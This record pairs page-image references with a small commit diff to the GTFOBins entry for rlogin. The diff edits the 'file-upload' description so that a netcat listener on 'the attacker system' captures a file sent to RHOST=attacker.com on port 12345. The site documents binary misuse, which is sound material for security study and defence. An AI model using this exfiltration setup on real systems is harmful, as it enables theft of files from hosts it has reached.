

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/rlogin.md, in a window 1280 px wide. Shown: the part 153-429 px from the top of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update rlogin.md

```diff
--- a/_gtfobins/rlogin.md
+++ b/_gtfobins/rlogin.md
@@ -1,7 +1,7 @@
 ---
 functions:
   file-upload:
-    - description: Send contents of a file to a TCP port. Run `nc -nlvp 12345 > "file_to_save"` on the attacker system to capture the contents.
+    - description: Send contents of a file to a TCP port. Run `nc -l -p 12345 > "file_to_save"` on the attacker system to capture the contents.
       code: |
         RHOST=attacker.com
         RPORT=12345
```
